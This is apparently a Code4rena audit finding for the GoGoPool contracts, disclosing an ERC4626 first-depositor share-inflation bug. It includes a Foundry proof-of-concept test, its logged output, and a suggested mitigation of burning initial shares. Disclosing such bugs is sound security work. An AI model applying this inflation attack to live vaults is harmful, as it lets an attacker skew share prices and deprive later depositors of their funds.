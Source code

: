 # Original link
https://github.com/code-423n4/2022-12-gogopool-findings/issues/319
# Lines of code

https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L42
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/tokens/upgradeable/ERC4626Upgradeable.sol#L120


# Vulnerability details

## Impact

After the ERC4626x contract creation, during the first cycle, any user can deposit and transfer token to the vault to inflate the ```totalAssets()``` before the rewards call, this can inflate the base share price and all the subsequence deposit will be using an inflated share price as base.

## Proof of Concept

I did the next test:

1. Init total suppply 
2. Transfer X amount in order to inflate totalAsset and calculates share prices
3. Deposit less than share price will be reverted due to return 0 share

```solidity
function testInflationShares() public {
    // Initial deposit can break share calculations
    // 1. Init total suppply 
    // 2. Transfer in order to inflate totalAsset and calculates share prices
    // 3. Deposit less than share price will be reverted due to return 0 share
    token.mint(address(this), 1e24);
    token.approve(address(xToken), type(uint256).max);
    //
    // 1. Init total supply
    //
    xToken.deposit(1, address(this)); // TotalSupply == 1; shares == 1;
    //
    // 2. Transfer in order to inflate totalAsset and calculates share prices
    //
    console.log("Share price     ", xToken.convertToAssets(1)); // TotalSupply == 1; Shares == 1;
    console.log("Total supply    ", xToken.totalAssets());
    console.log("Transfer 50e18 to inflate totalAsset()");
    token.transfer(address(xToken), 50 ether);  // inflate totalAsset()
    xToken.syncRewards();
    vm.warp(20); // skip 1 days to update new TotalAsset() value
        // totalSupply() still 1. So current share price is ~ 1e18 token instead of 1:1 for token.
    console.log("Share price     ", xToken.convertToAssets(1));
    console.log("Total supply    ", xToken.totalAssets());
    console.log("Deposit 1e18    ", xToken.deposit(1 ether, address(this)));
    console.log("Share price     ", xToken.convertToAssets(1));
    console.log("Total supply    ", xToken.totalAssets());
    console.log("Deposit 100e18  ", xToken.deposit(100 ether, address(this)));
    console.log("Share price     ", xToken.convertToAssets(1));
    console.log("Total supply    ", xToken.totalAssets());
    //
    // 3. Deposit less than share price will be reverted due to return 0 share
    //
    console.log("Deposit token less than share price amount (1e14) will be reverted due to return 0 share");
    vm.expectRevert(abi.encodePacked("ZERO_SHARES"));
    xToken.deposit(1e14, address(this));
}
```

Output:

```
Running 1 test for test/unit/ERC4626X.t.sol:xERC4626Test
[PASS] testInflationShares() (gas: 297151)
Logs:
  Share price      1
  Total supply     1
  Transfer 50e18 to inflate totalAsset()
  Share price      785384247176131
  Total supply     785384247176131
  Deposit 1e18     1273
  Share price      785545827509557
  Total supply     1000785384247176131
  Deposit 100e18   127300
  Share price      785545953180636
  Total supply     101000785384247176131
  Deposit token less than share price amount (1e14) will be reverted due to return 0 share
```

## Tools used

Foundry/VsCode

## Recommended Mitigation Steps

Although there are offchain mitigations where the contract could be initialized safely it is possible to implement on chain mitigations like uniswap that burn the first LP Tokens.